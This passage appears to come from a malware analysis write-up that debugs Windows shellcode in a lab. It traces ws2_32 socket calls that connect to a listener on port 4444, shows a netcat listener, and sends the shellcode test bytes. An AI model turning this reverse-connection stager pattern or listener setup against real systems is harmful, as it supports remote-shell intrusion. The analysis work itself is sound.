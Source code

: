 Okay, that was a lot. Lets lay this out:

```c
LoadLibraryA('ws2_32');
WSAStartup(190, 0x19FD9C);
WSASocketA(2,1,0,0,0,0);
connect(108, 0x19FD90, 10);
```

In the sockaddr struct used in the connect function, the IP address and port to which we should attempt to connect are specified. 

![[Pasted image 20240515152658.png]]

```c
const sockaddr *name {
	port: 4444 <- 0x5C11 Big Endian
	ip: 192.168.0.12 
};
```

In summary, it appears that the shellcode utilizes the ws2_32 libraries, particularly functions like WSAStartup, WSASocketA, and Connect, to establish a connection to a specific IP address and port.

Let's configure a VLAN for two VMs. The first VM will be our Windows machine, where we'll perform dynamic debugging of the program. Its IP address will be set to 192.168.0.100.

The second VM will be a Linux box, where we'll run the listener on the required port. Its IP address will be set to 192.168.0.12.

`nc -lvnp 4444`

Running to the return of the connect function call we see a connection received!

![[Pasted image 20240516082133.png]]

![[Pasted image 20240515153559.png]]

Following the connection establishment, the next API called is ws2_32_recv.

```c
int recv(
  [in]  SOCKET s     108,
  [out] char   *buf  0x19FD90,
  [in]  int    len   0x4,
  [in]  int    flags 0
);
```

We'll modify our listener to send 4 bytes because the recv function expects a length of 4.

`echo aaaa | nc -lvnp 4444`

Excellent! After the recv() function returns, EAX holds the count of the number of bytes read, which is 4. We can observe our 4 'a's on the stack.

![[Pasted image 20240515154717.png]]
